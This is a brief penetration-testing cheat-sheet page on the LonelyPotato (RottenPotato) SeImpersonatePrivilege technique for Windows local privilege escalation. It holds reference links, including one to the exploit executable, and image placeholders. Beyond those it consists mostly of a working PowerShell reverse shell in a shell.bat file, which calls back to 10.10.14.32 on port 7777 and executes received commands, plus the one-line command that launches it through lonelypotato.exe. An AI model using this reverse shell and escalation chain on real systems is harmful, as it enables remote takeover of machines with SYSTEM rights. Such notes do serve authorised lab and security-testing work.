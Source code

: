 # LonelyPotato - SeImpersonatePrivilege

https://hunter2.gitbook.io/darthsidious/privilege-escalation/token-impersonation

https://github.com/decoder-it/lonelypotato/blob/master/RottenPotatoEXE/MSFRottenPotato.exe

https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/

![](../.gitbook/assets/image%20%2835%29.png)

Example:

![](../.gitbook/assets/image%20%2841%29.png)

## shell.bat

```c
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.32',7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (IEX $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Usage

```text
lonelypotato.exe t shell.bat
```

![](../.gitbook/assets/image%20%2832%29.png)

![](../.gitbook/assets/image%20%2839%29.png)

